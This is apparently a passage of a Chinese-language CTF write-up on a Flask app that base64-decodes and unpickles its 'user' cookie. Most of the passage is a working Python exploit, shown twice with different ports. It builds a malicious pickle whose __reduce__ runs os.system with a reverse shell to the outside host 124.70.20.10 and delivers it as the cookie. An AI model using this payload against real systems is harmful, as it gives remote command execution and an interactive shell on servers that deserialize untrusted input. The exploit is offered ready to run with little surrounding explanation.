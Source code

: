 ~~~python
        username = "Guest"

    return "Hello %s" % username

if __name__ == "__main__":
    app.run()
~~~

~~~python
username是取Cookie变量user，对其进行base64解码+反序列化后还原的对象中的“username”变量，默认为“Guest”
~~~

~~~python
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("124.70.20.10",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return os.system, (s,)


e = exp()
s = pickle.dumps(e)

response = requests.get("http://127.0.0.1:5000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
~~~

EXP

~~~python
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("124.70.20.10",50050));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return os.system, (s,)


e = exp()
s = pickle.dumps(e)

response = requests.get("http://127.0.0.1:5000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
~~~
